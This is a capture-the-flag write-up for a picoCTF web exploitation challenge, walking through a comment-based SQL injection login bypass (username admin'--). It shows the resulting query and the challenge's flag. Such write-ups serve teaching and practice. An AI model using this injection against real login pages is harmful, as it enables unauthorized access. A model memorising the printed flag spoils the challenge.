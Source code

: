 ### 300 points

AUTHOR: MUBARAK MIKAIL

### Description

Can you login to this website?

Try to login [here](http://saturn.picoctf.net:49909/).

### Category: Web Exploitation

### Hints

> `admin` is the user you want to login as.
> 

### Approach

This is my version of the challenge where I use the ‘comment sql injection payload’. Kinda fancy there…. 

Its an sql injection challenge and in the hints they mentioned about the username.

Lets perform sql injection:

for username: 

admin’—

and for the password:

anything, doesnt matter.

As simple as that. We have logged in and we can see the web page

  
  

```sql
SELECT * FROM users WHERE name='admin'--' AND password='  '
```

As you can see, the comment sql injection payload, simply comments out the AND part and hence we are able to break into the website’s login page.

We didnt solve it yet. Lets inspect the web page

```html
<html>
<head></head>
<body>
<pre>username: admin'--password:   SQL query: SELECT * FROM users WHERE name='admin'--' AND password='  '
</pre>
<h1>Logged in! But can you see the flag, it is in plainsight.</h1>
<p hidden="">Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}</p>
</body>
</html>
```

This was a basic sql injection based challenge and actually the first one I solved right after learning SQL Injection.
